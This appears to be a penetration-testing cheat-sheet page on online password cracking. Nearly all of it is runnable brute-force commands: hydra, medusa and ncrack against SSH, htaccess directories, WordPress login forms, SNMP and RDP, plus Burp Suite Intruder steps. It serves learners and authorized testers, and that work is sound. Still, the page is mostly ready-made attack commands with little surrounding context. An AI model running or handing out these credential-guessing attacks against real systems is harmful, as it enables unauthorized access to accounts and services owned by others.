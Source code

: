 # Online Password Cracking



There are several tools specialized for bruteforcing online. There are several different services that are common for bruteforce. For example: VNC, SSH, FTP, SNMP, POP3, HTTP.

### Port 22 - SSH <a id="port-22---ssh"></a>

```text
hydra -l root -P wordlist.txt 192.168.0.101 ssh
hydra -L userlist.txt -P best1050.txt 192.168.1.103 -s 22 ssh -V
```

### Port 80/443 htaccess <a id="port-80443-htaccess"></a>

You can password protect directories with apache pretty easily. Just configure the htaccess \(I exaplin this in the chapter on Common ports\).

It can then be brute forced like this:

```text
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```

#### Logins <a id="logins"></a>

Use Burp Suite

1. Intecept a login attempt.
2. Modify the user field with ^USER^ and the password field with ^PASS^
3. Grab the post request path \(/wp-login.php\)
4. Grab the modified login request \(last field in request\)

Should be able to populate like below

```text
hydra -l username -P wordlist.txt TARGETIPADDRESS http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In
```

1. Send a fake request to the site and grab any text indicators of an invalid request \(_is incorrect_ in example below\)
2. Append to the end of the hydra syntax and close double quote

```text
hydra -l username -P wordlist.txt TARGETIPADDRESS http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:is incorrect"

hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/10k_most_common.txt TARGETIPADDRESS http-post-form "/wp-login.php:username=^USER^&password=^PASS^&wp-submit=Log+In:is incorrect" -t 64
```

Use Burp **Pro** suite. \(Can be performed in free but is ridiculously slow\)

1. Intecept a login attempt.
2. Right-lick "Send to intruder". Select Sniper if you have only one field you want to bruteforce. If you for example already know the username. Otherwise select cluster-attack.
3. Select your payload, your wordlist.
4. Click attack.
5. Look for response-length that differs from the rest.

### Port 161 - SNMP <a id="port-161---snmp"></a>

```text
hydra -P wordlist.txt -v 102.168.0.101 snmp
```

### Port 3389 - Remote Desktop Protocol <a id="port-3389---remote-desktop-protocol"></a>

For RDP we can use Ncrack.

```text
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
```

